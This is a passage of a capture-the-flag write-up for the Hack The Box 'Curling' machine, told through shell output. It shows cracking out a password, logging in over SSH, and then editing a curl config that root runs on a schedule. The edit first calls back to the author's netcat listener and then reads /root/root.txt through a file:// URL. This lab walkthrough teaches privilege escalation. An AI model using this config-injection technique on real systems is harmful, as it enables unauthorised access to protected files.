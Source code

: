 ```shell
bzip2: Can't guess original name for florispass -- using florispass.out
matt@kali:~/htb/curling$ cat florispass.out
password.txt0000644000000000000000000000002313301066143012147 0ustar rootroot5d<wdCbdZu)|hChXll
matt@kali:~/htb/curling$ file florispass.out
florispass.out: POSIX tar archive (GNU)
matt@kali:~/htb/curling$ tar xvf florispass.out
password.txt
matt@kali:~/htb/curling$ cat password.txt
5d<wdCbdZu)|hChXll
matt@kali:~/htb/curling$ file password.txt
password.txt: ASCII text
matt@kali:~/htb/curling$ ssh floris@10.10.10.150
floris@10.10.10.150's password:
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)
    * Documentation: https://help.ubuntu.com
    * Management: https://landscape.canonical.com
    * Support: https://ubuntu.com/advantage
    System information as of Sun Apr 19 04:12:32 UTC 2020
    System load: 0.08 Processes: 169
    Usage of /: 47.2% of 9.78GB Users logged in: 0
    Memory usage: 28% IP address for ens33: 10.10.10.150
    Swap usage: 0%
0 packages can be updated.
0 updates are security updates.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Sun Apr 19 04:11:51 2020 from 10.10.14.105
floris@curling:~$
```

As Floris, I had much more freedom to work and poke around. Within /home/floris/admin-area, there were two files, one called 'input' and the other 'report'. Input was owned by Floris, but report was owned by root. Furthermore, the files were being updated every minute. Hypothesizing that I could manipulate 'input' to execute arbitrary code, I set the content of 'input' as `url = "http://10.10.14.30:9999"` and waited with my netcat listener:

```shell
matt@kali:~/htb/curling$ sudo nc -nvlp 9999
[sudo] password for matt:
listening on [any] 9999 ...
connect to [10.10.14.105] from (UNKNOWN) [10.10.10.150] 50886
GET / HTTP/1.1
Host: 10.10.14.105:9999
User-Agent: curl/7.58.0
Accept: */*
```

After that, I decided to use 'file://' in order to get the root flag:

```shell
floris@curling:~/admin-area$ cat input
url = "file:///root/root.txt"
floris@curling:~/admin-area$ cat report
82c...
```
